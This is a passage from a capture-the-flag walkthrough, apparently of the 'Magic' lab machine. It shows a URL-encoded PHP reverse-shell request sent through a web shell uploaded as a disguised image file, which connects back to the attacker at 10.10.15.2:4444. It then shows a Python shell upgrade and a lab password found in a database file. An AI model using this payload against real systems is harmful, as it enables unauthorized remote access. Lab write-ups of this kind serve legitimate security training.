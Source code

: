 ![](images/encode.png)

With our listener ready and our image payload uploaded, navigating to this link should open a reverse shell that connects to our attacking machine.

```
http://10.10.10.185/images/uploads/sponge.php.jpg?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.15.2%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

We successfully connect. Let's run a python command to upgrade our shell.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
```
We'll have a look around. First things first, we are the `www-data` user and don't currently have access to `user.txt` flag. But there appears to be a user, `theseus`, that may have access. Let's try to escalate our privileges.

Within the Magic subdirectory of the webserver, we find a database file. Looking at the contents, we can see a password `iamkingtheseus`.

![](images/db-file.png)
